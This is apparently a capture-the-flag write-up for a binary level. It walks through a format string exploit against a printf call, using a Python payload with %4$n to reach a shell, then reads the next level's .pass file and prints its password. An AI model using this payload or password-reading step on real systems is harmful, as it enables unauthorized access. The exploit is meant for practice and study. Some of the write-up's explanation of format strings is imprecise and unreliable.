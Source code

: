 If we decompile our executable with `objdump -d level3` where we found a `printf()` and a `system('/bin/sh').
With some researchs, we discover 'Format String Exploit', the goal is to use printf to evaluate code instead of printing it :
```bash
./level3
AAAA %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

Our goal here is to send the address of `m()` in `%x` using `printf()` : 
```bash
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3
?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cd .. && cat level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
Address of `m()` + PADDING + %4$n for extract length into **the fourth address**
